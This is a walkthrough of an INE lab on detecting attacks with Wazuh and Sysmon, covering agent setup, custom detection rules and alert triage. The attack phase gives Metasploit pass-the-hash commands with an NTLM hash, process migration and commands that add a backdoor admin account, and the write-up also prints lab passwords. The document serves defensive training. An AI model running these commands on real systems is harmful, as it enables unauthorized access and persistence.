









# Threat Detection with Wazuh and Sysmon — Complete Walkthrough & SIEM Engineering Masterclass

> **Platform:** [INE Security (Cybersecurity Hands-on Labs)](https://my.ine.com/)
>
> **Lab Link:** [https://my.ine.com/labs/95e7d6f0-a089-4d26-aa16-c1ab7a0011ef](https://my.ine.com/labs/95e7d6f0-a089-4d26-aa16-c1ab7a0011ef)
>
> **Lab Title:** Threat Detection with Wazuh Sysmon
>
> **Category:** Host Forensics, Endpoint Detection & Response (EDR) & Wazuh SIEM
>
> **Telemetry Pipeline:** Windows Server 2019 (Target: `10.0.18.168`) → Sysmon (SwiftOnSecurity) → Wazuh Agent (`ossec.conf` Eventchannel) → Wazuh Manager (Ubuntu 20.04: `10.0.26.67`) → Wazuh Dashboard
>
> **Video Demonstration:** [`Threat Detection with Wazuh Sysmon.mp4`](./Threat%20Detection%20with%20Wazuh%20Sysmon.mp4)
>
> **Status:** 7 of 7 Tasks Completed (100% Solved & Detected)

---

<div align="center">



# 🛡️ Threat Detection with Wazuh & Sysmon 🛡️
### Agent Setup, Sysmon Forwarding, Custom Level 12 XML Rules, PsExec PTH & Process Migration

[](https://my.ine.com/labs/95e7d6f0-a089-4d26-aa16-c1ab7a0011ef)
[](https://wazuh.com/)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://attack.mitre.org/techniques/T1550/002/)
[](https://attack.mitre.org/)

</div>

---

### 🎥 Real-Time Interactive Threat Hunting & Detection Demonstration

The animated visual below illustrates the complete red-to-blue lifecycle—deploying the Wazuh Agent on Windows Server 2019, configuring SwiftOnSecurity Sysmon, routing Sysmon eventchannel logs into the Wazuh Manager, authoring custom Level 12 XML rules to detect Mimikatz and process anomalies, executing a Pass-The-Hash attack via Metasploit PsExec, performing thread injection into `explorer.exe`, adding a rogue administrative account, and triaging 26+ security alerts in the Wazuh Dashboard:



---

# Executive Summary

Enterprise Endpoint Detection & Response (EDR) depends on combining kernel-level event tracing with centralized rule correlation:
* **The Wazuh Platform:** An open-source enterprise security monitoring solution integrating host-based intrusion detection (HIDS), log analysis, file integrity monitoring (FIM), vulnerability detection, and active response, built on top of the OpenSearch/Elasticsearch indexing engine.
* **Microsoft Sysinternals Sysmon:** Provides deep visibility into Windows subsystem activities that bypass standard Security Event Logs—capturing process creation lineages (Event ID 1), outbound socket connections (Event ID 3), remote thread injection (Event ID 8), direct LSASS handle opening (Event ID 10), and registry tampering (Event ID 13).
* **The Red-to-Blue Cycle:**
  1. *Telemetry Ingestion:* Forwarding `Microsoft-Windows-Sysmon/Operational` via `ossec.conf` eventchannel to the Wazuh Manager (`10.0.26.67`).
  2. *Custom Rule Authoring:* Elevating Sysmon events to Level 12 alerts in `/var/ossec/etc/rules/local_rules.xml` to detect executable names, remote thread creation, and process access masks.
  3. *Adversary Emulation:* Executing a Pass-The-Hash lateral movement attack using Metasploit's `exploit/windows/smb/psexec`, establishing a SYSTEM Meterpreter session, migrating into `explorer.exe`, and provisioning a backdoor user (`wazuh-hacker`).
  4. *SIEM Triage:* Investigating 26+ high-severity alerts in the Wazuh Dashboard to trace the full MITRE ATT&CK progression.

---

# 7-Stage Red-to-Blue Architecture Blueprint

The diagram below details the operational connectivity between the Kali Linux attacker, the Windows Server 2019 target endpoint, and the Ubuntu 20.04 Wazuh SIEM Manager:



---

# 🔑 Lab Credentials & Infrastructure Details

| Node | Operating System / IP | Credentials | Role |
|---|---|---|---|
| **Attacker Machine** | Kali GUI | Native GUI | Metasploit, Nmap, Pass-The-Hash |
| **SOC Machine (Wazuh)** | Ubuntu 20.04 (`10.0.26.67`) | **Web UI:** `https://localhost`<br>**User:** `admin`<br>**Password:** `wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc` | Wazuh Manager v4.x, Rule Engine, Dashboard |
| **Target Machine** | Windows Server 2019 (`10.0.18.168`) | `administrator`<br>`abc_123321!@#` | Monitored Server, Sysmon, Wazuh Agent |

---

# 📊 Master 7-Task Execution & Detection Summary

| Task # | Lab Phase | Target Node | Action Executed | Wazuh SIEM / Forensic Artifact |
|:---:|:---|:---|:---|:---|
| **Task 1** | Agent Installation | Windows (`10.0.18.168`) | Silent MSI install with `WAZUH_MANAGER=10.0.26.67`; start `WazuhSvc` | Active Agent registered in Wazuh Dashboard |
| **Task 2** | Sysmon Deployment | Windows (`10.0.18.168`) | `Sysmon.exe -accepteula -i sysmonconfig-export.xml` | SwiftOnSecurity template loaded into driver |
| **Task 3** | Forwarding Telemetry | Windows (`10.0.18.168`) | Add `Microsoft-Windows-Sysmon/Operational` to `ossec.conf` | Sysmon events stream over TCP 1514 |
| **Task 4** | Custom Mimikatz Rules | Ubuntu (`10.0.26.67`) | Author Rules `100000`, `100001`, `100002` (Level 12) | Alerts on `mimikatz.exe` image, thread, and LSASS access |
| **Task 5** | Global Sysmon Ingest | Ubuntu (`10.0.26.67`) | Author Rule `220000` (Level 12) in `local_rules.xml` | All Sysmon event IDs visible in Security Events UI |
| **Task 6** | PsExec PTH Attack | Kali Attacker | Metasploit `psexec` with NTLM hash; `migrate -N explorer.exe`; `net user /add` | Meterpreter session, process injection, rogue admin account |
| **Task 7** | Wazuh Incident Triage | Wazuh Dashboard | Triage 26+ Level 12+ alerts in Security Events | Correlated PsExec service (T1543.003), EID 8 injection, user add (T1136) |

---

# 🔬 Step-by-Step Technical Execution & Detection Guide

---

### Task 1: Configure Wazuh Agent on Windows Server

#### 1. Objective
Install the Wazuh Agent on Windows Server 2019 and register it with the Wazuh Manager on the Ubuntu machine (`10.0.26.67`).

#### 2. Verify Wazuh Manager IP & Dashboard Access (Ubuntu SOC)
Open terminal on the Ubuntu machine:
```bash
ip addr
# Output confirms interface IP: 10.0.26.67
```
Launch Firefox on Ubuntu and navigate to `https://localhost`:
* **Username:** `admin`
* **Password:** `wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc`
*Initial state confirms 0 active agents.*

#### 3. Install Wazuh Agent (Windows Target Machine)
Open PowerShell as Administrator on the Windows machine (`10.0.18.168`):
```powershell
cd C:\Users\Administrator\Desktop
msiexec.exe /i wazuh-agent.msi /q WAZUH_MANAGER=10.0.26.67 WAZUH_REGISTRATION_SERVER=10.0.26.67 WAZUH_AGENT_GROUP=default
```
*Wait 3–5 minutes for MSI installation to complete.*

Start the agent service:
```powershell
Start-Service -Name WazuhSvc
Get-Service -Name WazuhSvc
```
*Note: Starting the agent may momentarily disconnect the RDP session. Reconnect if prompted.*

#### 4. Verification in Wazuh UI
Refresh the Wazuh Dashboard in Firefox. **1 active agent** is now registered.



---

### Task 2: Configure Sysmon on Windows Server

#### 1. Objective
Deploy Microsoft Sysinternals Sysmon with SwiftOnSecurity's modular configuration template for high-fidelity process, socket, and registry auditing.

#### 2. Execution Command (PowerShell as Administrator)
```powershell
C:\Users\Administrator\Documents\Sysmon.exe -accepteula -i C:\Users\Administrator\Documents\sysmonconfig-export.xml
Get-Service -Name Sysmon
```
*Output confirms Sysmon service status is `Running`.*


---

### Task 3: Forward Sysmon Event Logs to Wazuh Manager

#### 1. Objective
Configure the Wazuh Agent to ingest and forward the `Microsoft-Windows-Sysmon/Operational` eventchannel to the Wazuh Manager.

#### 2. Modify `ossec.conf` Configuration
Edit `C:\Program Files (x86)\ossec-agent\ossec.conf` using Notepad. Inside the `<ossec_config>` section, append:
```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```
Additionally, ensure `<client_buffer>` is enabled:
```xml
<client_buffer>
  <disabled>no</disabled>
  <queue_size>5000</queue_size>
  <events_per_second>500</events_per_second>
</client_buffer>
```

#### 3. Restart Agent Service
```powershell
Restart-Service -Name WazuhSvc
```



---

### Task 4: Create Custom Rules to Detect Specific Executables (Mimikatz)

#### 1. Objective
Author custom Level 12 XML detection rules on the Wazuh Manager to alert on process execution, remote thread injection, and process access by `mimikatz.exe`.

#### 2. Edit `local_rules.xml` (Ubuntu SOC Machine)
Open terminal on the Ubuntu machine:
```bash
sudo nano /var/ossec/etc/rules/local_rules.xml
```
Append the custom rule group:
```xml
<group name="windows, sysmon, sysmon_process-anomalies,">
  <!-- Detect Process Creation: Sysmon Event ID 1 -->
  <rule id="100000" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.image">mimikatz.exe</field>
    <description>Sysmon - Suspicious Process - mimikatz.exe</description>
  </rule>

  <!-- Detect Remote Thread Creation: Sysmon Event ID 8 -->
  <rule id="100001" level="12">
    <if_group>sysmon_event8</if_group>
    <field name="win.eventdata.sourceImage">mimikatz.exe</field>
    <description>Sysmon - Suspicious Process mimikatz.exe created a remote thread</description>
  </rule>

  <!-- Detect Process Access (LSASS): Sysmon Event ID 10 -->
  <rule id="100002" level="12">
    <if_group>sysmon_event_10</if_group>
    <field name="win.eventdata.sourceImage">mimikatz.exe</field>
    <description>Sysmon - Suspicious Process mimikatz.exe accessed $(win.eventdata.targetImage)</description>
  </rule>
</group>
```

#### 3. Restart Wazuh Manager
```bash
sudo /etc/init.d/wazuh-manager restart
```

#### 4. Trigger & Verify Alert
On the Windows Target machine, execute Mimikatz:
```powershell
cd C:\Users\Administrator\Desktop\Tools\mimikatz
.\mimikatz.exe
```
In the Wazuh Dashboard, navigate to **Modules** → **Security Events**. A high-severity **Level 12 Alert** is triggered: `"Sysmon - Suspicious Process - mimikatz.exe"`.



---

### Task 5: Ingest All Sysmon Event Logs into Wazuh

#### 1. Objective
By default, low-severity Sysmon events (Level 0–3) are not displayed in the Security Events dashboard. We add a broad promotion rule to elevate all incoming Sysmon events to Level 12.

#### 2. Edit `local_rules.xml` (Ubuntu SOC Machine)
```bash
sudo nano /var/ossec/etc/rules/local_rules.xml
```
Append:
```xml
<group name="sysmon,">
  <rule id="220000" level="12">
    <if_group>sysmon</if_group>
    <description>Windows Sysmon event. Event ID: $(win.system.eventID)</description>
    <options>no_full_log</options>
  </rule>
</group>
```

#### 3. Restart Wazuh Manager
```bash
sudo /etc/init.d/wazuh-manager restart
```
*Verification: Launch PowerShell on the Windows Target. Return to Wazuh Dashboard → Security Events to confirm that Event ID 1 (Process Creation) and all subsequent Sysmon events appear in real-time.*



---

### Task 6: Perform Attacks from Kali (Pass-The-Hash, Migration & Account Creation)

#### 1. Objective
From the Kali Linux machine, execute a lateral movement Pass-The-Hash attack using Metasploit PsExec, migrate the Meterpreter payload into a user session (`explorer.exe`), and create a persistent backdoor administrator account.

#### 2. Metasploit PsExec Pass-The-Hash
```bash
msfconsole -q
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.0.18.168
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass 00000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20
msf6 exploit(windows/smb/psexec) > exploit
```
*A Meterpreter session is established with `NT AUTHORITY\SYSTEM`.*

#### 3. Process Migration
```bash
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
meterpreter > migrate -N explorer.exe
# [*] Migrating from 1420 to 3048...
# [*] Migration completed successfully.
meterpreter > getuid
# Server username: DEMO2\Administrator
```

#### 4. Backdoor Account Creation
```bash
meterpreter > shell
C:\Windows\system32> net user /add wazuh-hacker
# The command completed successfully.
C:\Windows\system32> net localgroup administrators /add wazuh-hacker
# The command completed successfully.
```



---

### Task 7: Detect Performed Attacks on Wazuh Dashboard

#### 1. Objective
Navigate to **Wazuh** → **Modules** → **Security Events** on the Ubuntu SOC machine and investigate the 26+ generated alerts.

#### 2. Forensic Analysis of Alerts

1. **Pass-The-Hash & Service Creation (MITRE T1543.003 / T1550.002):**
   * Inspect **Sysmon Event ID 1** and **Event ID 13**:
   * A new Windows service was created by PsExec to execute a Base64-encoded PowerShell payload.
   * Successful NTLM authentication logged, with Wazuh flagging the signature as a Pass-the-Hash event.
   * Full PowerShell command line captured in Event ID 1 showing Meterpreter stager execution.

2. **Process Migration & Thread Injection (MITRE T1055.001 / Sysmon Event ID 8):**
   * Inspect **Event ID 8 (CreateRemoteThread)**:
   * Telemetry isolates:
     * `SourceUser:` `NT AUTHORITY\SYSTEM`
     * `TargetUser:` `DEMO2\Administrator`
     * `TargetImage:` `C:\Windows\explorer.exe`
   * Proves that Meterpreter migrated out of the transient service process into the desktop session.

3. **Backdoor Account Provisioning (MITRE T1136 / Sysmon Event ID 1):**
   * Inspect **Event ID 1** by timestamp:
   * Captures raw command-line invocations:
     ```text
     net user /add wazuh-hacker
     net localgroup administrators /add wazuh-hacker
     ```
   * Correlates account creation and privilege escalation directly to the Meterpreter child shell.



---

# 📚 Comprehensive Sysmon Event ID Reference (IDs 1 – 28)

| Event ID | Name | Forensic Significance & Detection Value |
|:---:|:---|:---|
| **EID 1** | Process Creation | Full command line, parent process lineage, image path, SHA256 hashes (**T1059**) |
| **EID 2** | File Creation Time Change | Timestomping detection to evade forensic analysis (**T1070.006**) |
| **EID 3** | Network Connection | Outbound C2 beacons, SMB lateral movement, suspicious port connections (**T1071**) |
| **EID 4** | Sysmon Service State Change | Defense evasion via service termination (**T1562.001**) |
| **EID 5** | Process Termination | Tracking lifecycle of short-lived malicious droppers |
| **EID 6** | Driver Loaded | Kernel-level rootkit installation and unsigned driver loading (**T1014**) |
| **EID 7** | Image Loaded | DLL injection, reflective DLL loading, unmanaged PowerShell DLLs (**T1574**) |
| **EID 8** | CreateRemoteThread | Process injection across process boundaries (Meterpreter migration) (**T1055.001**) |
| **EID 9** | RawAccessRead | Direct disk reading bypassing NTFS security (dumping VSS or SAM) (**T1006**) |
| **EID 10** | ProcessAccess | LSASS memory reading (Mimikatz `sekurlsa::logonpasswords`) (**T1003.001**) |
| **EID 11** | FileCreate | Droppers, ransomware file extensions, persistence scripts (**T1105**, **T1486**) |
| **EID 12** | Registry Object Create/Delete | Persistence removal or stealth registry keys (**T1112**) |
| **EID 13** | Registry Value Set | Persistence via `Run` keys, service image hijacking (**T1547.001**) |
| **EID 14** | Registry Key/Value Rename | Obfuscating autorun entries (**T1112**) |
| **EID 15** | FileCreateStreamHash | Alternate Data Streams (ADS) hiding payloads in NTFS streams (**T1564.004**) |
| **EID 16** | ServiceConfigChange | Sysmon configuration tampering (**T1562.001**) |
| **EID 17** | Pipe Created | Named pipe creation for lateral movement (PsExec named pipes) (**T1570**) |
| **EID 18** | Pipe Connected | Named pipe communication between C2 processes |
| **EID 19** | WmiEventFilter | WMI persistence event filter registration (**T1546.003**) |
| **EID 20** | WmiEventConsumer | WMI persistence event consumer registration (**T1546.003**) |
| **EID 21** | WmiEventConsumerToFilter | Binding WMI consumers to filters for reboot persistence (**T1546.003**) |
| **EID 22** | DNSEvent | DNS queries to malicious C2 infrastructure and DGA domains (**T1071.004**) |
| **EID 23** | FileDelete (Archived) | File deletion tracking with archive preservation (**T1070.004**) |
| **EID 24** | ClipboardChange | Keylogger and clipboard stealer activity (**T1115**) |
| **EID 25** | ProcessTampering | Process hollowing and Herpaderping (**T1055.012**) |
| **EID 26** | FileDeleteDetected | Logging file deletion events |
| **EID 27** | FileBlockExecutable | Blocking PE execution from untrusted paths |
| **EID 28** | FileBlockShredding | Blocking file shredding and anti-forensics tools |

---

# 🛡️ Production Detection Engineering (Wazuh XML Rules)

### Rule 1: PsExec Service Installation Detection (T1543.003)
```xml
<group name="sysmon,psexec,">
  <rule id="160010" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.image">PSEXESVC\.exe$</field>
    <description>PsExec Service Executable Invocation Detected (T1543.003)</description>
    <mitre>
      <id>T1543.003</id>
      <id>T1021.002</id>
    </mitre>
  </rule>
</group>
```

### Rule 2: Rogue Administrative Account Creation (T1136)
```xml
<group name="sysmon,account_creation,">
  <rule id="160011" level="10">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.image">net(1)?\.exe$</field>
    <field name="win.eventdata.commandLine">(user\s+/add|localgroup\s+administrators\s+/add)</field>
    <description>Command Line User Account Creation or Group Escalation Detected (T1136)</description>
    <mitre>
      <id>T1136</id>
      <id>T1098</id>
    </mitre>
  </rule>
</group>
```

---

# 📌 Defensive Recommendations & Hardening

1. **Disable NTLMv1 and Enforce SMB Signing:**
   * Pass-The-Hash attacks succeed because NTLM hashes can be directly replayed over SMB. Enforce Kerberos-only authentication and enable SMB Signing:
   ```reg
   reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v RequireSecuritySignature /t REG_DWORD /d 1 /f
   ```
2. **Restrict Remote SAM & Local Administrator Reuse:**
   * Prevent lateral movement across servers by utilizing Microsoft LAPS (Local Administrator Password Solution) to enforce unique passwords per host.
3. **Restrict Remote Thread Creation via Attack Surface Reduction (ASR):**
   * Deploy Windows Defender ASR rule `Block credential stealing from the Windows local security authority subsystem (lsass.exe)`:
   * Rule GUID: `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`.
